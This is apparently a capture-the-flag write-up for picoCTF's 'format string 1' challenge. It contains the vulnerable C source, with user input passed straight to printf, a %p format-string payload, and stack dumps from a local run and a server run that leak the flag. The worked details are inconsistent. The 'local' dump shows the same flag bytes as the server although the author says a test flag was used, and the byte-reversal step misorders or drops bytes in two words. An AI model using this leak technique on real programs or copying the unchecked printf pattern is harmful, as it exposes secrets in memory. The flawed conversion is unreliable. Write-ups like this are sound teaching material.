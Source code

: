 # PicoCTF - format string 1

## Challenge Overview
**Title:** format string 1  
**Category:** Binary Exploitation  
**Difficulty:** Medium  
**Files Provided:** format-string-1.c, format-string-1

## Description
Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest! Download the binary here. Download the source here.

Additional details will be available after launching your challenge instance.

## Source Code
```c
#include <stdio.h>


int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}

```

## Initial Analysis
We see four buffers declared in the stack
```c
char buf[1024];
char secret1[64];
char flag[64];
char secret2[64];
```
`secret1` and `secret2` hold the text from file `secret-menu-item-1.txt` and `secret-menu-item-2.txt` respectively.  
`flag` contains the **flag**.  
`buf` holds our input.  

Towards the end of the code, we find the classic **string format** vulnerability.

```c
printf("Give me your order and I'll read it back to you:\n");
fflush(stdout);
scanf("%1024s", buf);
printf("Here's your order: ");
printf(buf);
```
## Detailed Analysis
I recreate the file structure in my local folder and add my `flag.txt` with the string **picoCTF{my_test_flag}**

THe string in the `flag.txt` has the following ASCII representation **70 69 63 6F 43 54 46 7B 6D 79 5F 74 65 73 74 5F 66 6C 61 67 7D**.

Now I will start performing the **vulnerability** and try to **locate** these bytes.

I enter as my input `%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p` to print a bunch of bytes from the stack

### Output
```
Here's your order: 0x402118(nil)0x70251e225a00(nil)0xa278800xa3478340x7fff1670a9600x70251e016e600x70251e23b4d00x10x7fff1670aa30(nil)(nil)0x7b4654436f6369700x355f31346d316e340x3478345f333179370x35625f673431665f0x7d6638396237640x70x70251e23d8d80x23000000070x206e6933743072500xa336c7974530x90x70251e24ede90x70251e01f0980x70251e23b4d0(nil)  
0x7fff1670aa400x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x7025702570257025
```

At the start of the **second** line, next to (nil) we start seeing the flag with the bytes in **reverse order** per word (Little Endian).

Now we do the same in the **server** and try to find the **initial bytes** of the flag which should be the **same** since it will also start with **picoCTF{**.  

### Server Output
```
Give me your order and I'll read it back to you:
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Here's your order: 0x402118(nil)0x7a8846149a00(nil)0x22f18800xa3478340x7ffc00d3b6000x7a8845f3ae600x7a884615f4d00x10x7ffc00d3b6d0  
(nil)(nil)0x7b4654436f6369700x355f31346d316e340x3478345f333179370x35625f673431665f0x7d663839623764
Bye!
```

Next to the (nil)(nil) we see again the **start** of our **flag**.  
`0x7b4654436f6369700x355f31346d316e340x3478345f333179370x35625f673431665f0x7d663839623764`

We have to split it on every **0x** and reverse each one's byte order.  
From: `7b4654436f636970 355f31346d316e34 3478345f33317937 35625f673431665f 7d663839623764`  
To:   `7069636f4354467b 346e316d34315f35 377931335f3478 345f663134675f62 356437623938667d`

Now simply use a **hex to string** converter, like RapidTables, and get the **flag**
## Solution
- Enter as input `%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p`  
- Find the bytes that map to **picoCTF** 
- Copy until the end (NULL terminator)
- Reverse bytes because of Little Endian
- Convert hex to string
